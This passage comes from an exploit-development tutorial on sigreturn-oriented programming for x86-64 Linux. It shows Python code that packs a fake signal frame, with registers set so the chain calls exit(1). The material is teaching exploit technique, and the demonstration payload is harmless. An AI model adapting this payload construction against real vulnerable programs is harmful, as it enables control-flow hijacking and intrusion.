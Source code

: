 Now comes the interesting part - setting up the rest of the Signal Frame. Please look up the stack-dump and copy those values into the exploit.

```
    # Now, let us construct the first sigframe                                  
    # which will be loaded by the above rt_sigreturn.                           
    # 1. ucontext                                                               
    payload += struct.pack('<Q', 0x0000000000000007)    # uc_flags              
    payload += struct.pack('<Q', 0x0000000000000000)    # uc_link               
    payload += struct.pack('<Q', 0x0000000000000000)    # uc_stack.ss_sp        
    payload += struct.pack('<Q', 0x0000ffff00000000)    # uc_stack.ss_flags     
    payload += struct.pack('<Q', 0x0000000000000000)    # uc_stack.ss_size 
```

Please note that these bytes should be in this very order. Internally, the kernel typecasts these bytes back to the ```rt_sigframe``` structure and then processes it - so these members should be in the exact order present in the stack-dump.

At the moment, all we care about are registers ```rax```, ```rdi``` and ```rip```. We can fill up rest with garbage values.


```
    # 2. General Purpose Registers                                              
    payload += struct.pack('<Q', 0xdeadbeefdeadbeef)    # R8                    
    payload += struct.pack('<Q', 0xdeadbeefdeadbeef)    # R9              
    payload += struct.pack('<Q', 0xdeadbeefdeadbeef)    # R10                   
    payload += struct.pack('<Q', 0xdeadbeefdeadbeef)    # R11                   
    payload += struct.pack('<Q', 0xdeadbeefdeadbeef)    # R12                   
    payload += struct.pack('<Q', 0xdeadbeefdeadbeef)    # R13                   
    payload += struct.pack('<Q', 0xdeadbeefdeadbeef)    # R14                   
    payload += struct.pack('<Q', 0xdeadbeefdeadbeef)    # R15                   
```

Then comes ```rdi``` register.

```
    payload += struct.pack('<Q', 0x0000000000000001)    # RDI = 1, exit(1)
```

Then a few more registers.

```
    payload += struct.pack('<Q', 0xdeadbeefdeadbeef)    # RSI                   
    payload += struct.pack('<Q', 0xdeadbeefdeadbeef)    # RBP                   
    payload += struct.pack('<Q', 0xdeadbeefdeadbeef)    # RBX                   
    payload += struct.pack('<Q', 0xdeadbeefdeadbeef)    # RDX               
```

Then comes ```rax```.

```
    payload += struct.pack('<Q', 0x000000000000003c)    # RAX = exit's system call number = 60.
```

Then a few more registers.

```
    payload += struct.pack('<Q', 0xdeadbeefdeadbeef)    # RCX               
    payload += struct.pack('<Q', 0xdeadbeefdeadbeef)    # RSP               
```
